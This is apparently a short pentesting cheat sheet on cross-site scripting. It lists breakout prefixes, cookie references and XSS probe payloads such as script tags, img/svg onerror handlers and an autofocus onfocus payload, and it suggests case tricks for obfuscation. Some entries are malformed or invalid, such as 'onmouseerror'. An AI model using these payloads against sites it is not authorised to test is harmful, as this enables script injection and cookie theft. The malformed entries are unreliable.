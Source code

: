 # JavaScript

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

> [!INFO]
> JavaScript code snippets are case insensitive. Use this to your advantage to obfuscate it.

## 01 - Prefix

```
>
'>
">
```

## 02 - JavaScript Cookie Properties

```
document.cookie
window.origin
document.cookie
```

## 03 - JavaScript Pop-Up Message

```
<script>alert(1)</script>
<script>print()</script>

<img src="" onerror=alert(1)>
<img src=# onmouseerror=alert(1)>
<svg src="" onerror=alert(1)>
<img src=# onmouseerror=alert(1)>
<img src/onerror=prompt(document.cookie)>

<iframe src="" onerror=alert(1)>

<input autofocus onfocus="setTimeout(function() {alert(1)}, 5000);"></input><;/style<;/title<;/textarea<;/script>
```

---
## References

- [Hacktricks: XSS (Cross Site Scripting)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

- [Hacktricks: Unicode Injection](https://book.hacktricks.xyz/pentesting-web/unicode-injection)